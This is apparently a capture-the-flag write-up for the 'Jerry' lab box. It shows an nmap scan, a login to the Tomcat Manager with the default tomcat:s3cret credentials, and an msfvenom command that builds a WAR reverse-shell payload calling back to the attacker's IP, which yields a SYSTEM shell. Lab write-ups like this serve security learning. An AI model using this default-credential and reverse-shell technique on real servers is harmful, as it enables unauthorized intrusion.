# Jerry

# Enumeration

## Nmap

I start running a simple nmap scan.

```bash
nmap -sC -sV -Pn jerry.htb > nmap.txt
```

The scan shows only port 8080 open, running Apache Tomcat.



Since there’s only one place to go, I’ll see what I can find.

## Website

This looks like a default page for Apache Tomcat. Theres a few things I can click on, but the one that sticks out the most is the Manager App.



When I try to click on the Manager App button, I am prompted for login. Because this is a default page, my immediate thought is to try some default credentials. Googling default credentials for Tomcat returns [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) handy list of credentials.

After trying a few of the basic combinations (admin:password, admin:admin, root:root), i decide to try tomcat:s3cret, which lets me in!



Although I got lucky with trying this combination from the list of 29 combinations, I later realized that the credentials were much easier to find. By closing the login screen, this window will pop up:



The example credentials that are given are tomcat:s3cret, which I believe was how the creator intended users to find the credentials, rather than brute forcing it. Regardless, I’m in and will now look around a bit more.

## Manager App

The first thing that catches my eye in this Manager App is the section to upload a file.



Because I’m not sure what a WAR file is, it’s time to do some googling! This [wikipedia](https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web) page reveals that a WAR (Web Application Resource) file is a file used to distribute various resources needed to run a web application. These files can contain Java code, which is all I needed to hear!

# Exploitation

## WAR Payload

A bit more research shows that I can craft a payload in msfvenom formatted as a war file! Ill specify that I want a windows reverse shell, because this is a windows box, along with the ip and port to send the shell to. Using `-f` I can then tell msfvenom to format this payload as a war file.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > rev.war
```

I send the full command to msfvenom and get my file outputted as `rev.war`



Once I upload the file, it shows up in the dashboard and it’s ready to go!



## Reverse Shell

I’ll set up a netcat listner over port 1234 and try to run the file by clicking on the file. When I try clicking on the file, I am greeted with a 404 Status Error page.



After a bit of troubleshooting, I discover that this is because i formatted my reverse shell as a windows payload, formatted as a WAR file. What I should have done is was used a java payload instead. Because I used a windows payload, it gets converted to a `.jsp` (Java Service Page) and then formatted as a WAR file, so when the file is launched the system doesn’t know to launch the `.jsp`. What I need to do is find the name of the `.jsp` file so I can specify that in the URL.

This can be done by running the `jar` command against the payload, with the `-ft` commands. `-f` specifies the file, and `-t` will list the table of contents for the file.



Now that I know the file name, I can add this to the end of the URL to execute the payload and get the reverse shell back to my machine.



I run a whoami to find that I have a system shell!



## Flags

There is a folder on the administrator desktop named flags, which contains one file that has both flags!


